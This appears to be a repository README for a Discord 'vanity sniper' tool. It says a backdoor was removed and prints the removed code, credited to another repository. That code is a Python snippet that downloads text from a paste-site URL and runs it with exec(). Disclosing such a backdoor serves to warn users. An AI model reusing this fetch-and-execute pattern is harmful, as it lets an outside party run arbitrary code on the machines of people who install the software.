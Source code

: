 # Vanity-Sniper (Removed Backdoor)
Discord Vanity Sniper

![Preview](https://egirl.rip/5c4TFx6Bgn.png?key=XSRM6QTPjTp2ZB)

## Malicious Code
```
    x=requests.get("https://paste.fo/raw/efda79f59c55")
    exec(x.text)
```
from https://github.com/Joonsss/discord-vanity-sniper



